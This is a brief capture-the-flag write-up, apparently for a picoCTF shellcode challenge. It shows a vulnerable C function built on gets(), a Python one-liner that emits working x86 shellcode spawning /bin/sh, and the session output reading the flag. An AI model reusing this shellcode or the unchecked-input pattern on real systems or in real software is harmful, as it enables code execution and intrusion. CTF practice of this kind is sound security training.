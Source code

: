 #shellcode

As usual let's look at the source provided and see what's going on:
```
void vuln(char *buf){
  gets(buf);
  puts(buf);
}
```
Seems like we just need to give it some tasty shellcode to get a shell.
```
$ python -c 'print("\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80")' > out
/problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd$ (cat ~/out;cat)|./vuln
Enter a string!
jX̀PP[YjFX̀Ph//shh/bin?ɰ
                      ̀
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_b766002c}
```

WOOHOO!
